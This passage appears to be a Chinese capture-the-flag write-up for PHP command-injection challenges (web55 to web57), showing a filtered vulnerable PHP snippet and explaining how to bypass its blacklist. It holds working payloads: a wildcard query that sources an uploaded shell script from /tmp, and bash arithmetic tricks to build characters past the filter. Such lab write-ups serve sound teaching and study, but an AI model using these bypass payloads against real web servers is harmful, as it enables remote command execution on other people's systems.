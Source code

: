 上传文件到该网页并抓包，修改文件内容为shell脚本格式

并且get传参使用点 . 去执行该文件

<img src="https://s2.loli.net/2022/12/24/YcjiZqfnNKhJxTe.png" alt="image-20221224101228694" style="zoom:33%;" />

get传参：

```php
?c=.+/???/????????[@-[]			
// +代表空格在url中， 最后的[@-[] 是linux下的通配符，去匹配大写字母
//意思就是通过 .(source)  去执行/tmp/php?????? 中我们上传的文件中的shell脚本
```

![img](https://s2.loli.net/2022/12/24/5YGIxtPVQolJKZh.png)



### web56

同上



### web57

```php
<?php
// 还能炫的动吗？
//flag in 36.php
if(isset($_GET['c'])){
    $c=$_GET['c'];
    if(!preg_match("/\;|[a-z]|[0-9]|\`|\|\#|\'|\"|\`|\%|\x09|\x26|\x0a|\>|\<|\.|\,|\?|\*|\-|\=|\[/i", $c)){
        system("cat ".$c.".php");
    }
}else{
    highlight_file(__FILE__);
} 
```

观察题目可知，我们只需要构造出36即可

查阅资料可知：

> linux中
>
> **${_}**=""		//返回上一次的执行结果，如果没有上一次执行结果就返回空
>
> **$(())=0**		
>
> **$(( ~$(()) )) = $((-1)) = -1**
>
> $(()) 是 用来做整数运算的命令，内部可以放表达式，**默认相加**

我们可以通过 $((~-37)) = 36  对-37取反可得36
